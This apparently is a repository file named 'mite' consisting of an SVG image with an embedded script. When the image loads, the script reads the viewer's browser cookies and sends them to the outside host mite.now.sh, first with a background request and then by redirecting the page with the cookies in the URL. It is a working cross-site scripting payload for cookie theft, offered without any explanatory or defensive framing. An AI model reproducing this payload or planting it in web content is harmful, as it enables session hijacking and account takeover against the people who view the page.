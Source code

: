 # mite


<svg xmlns="http://www.w3.org/1999/svg">
  <script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (xhttp.readyState == 4 &amp;&amp; xhttp.status == 200) {
     document.getElementById("demo").innerHTML = xhttp.responseText;
    }
  };

  cookies = document.cookie;
  urli = "https://mite.now.sh/README.md";
  fullurl = urli + "?" + cookies;
  xhttp.open("GET", fullurl, true);
  xhttp.send();
} 
loadDoc();
window.location="http://mite.now.sh/README.md?cook="+document.cookie;
  </script>
</svg>
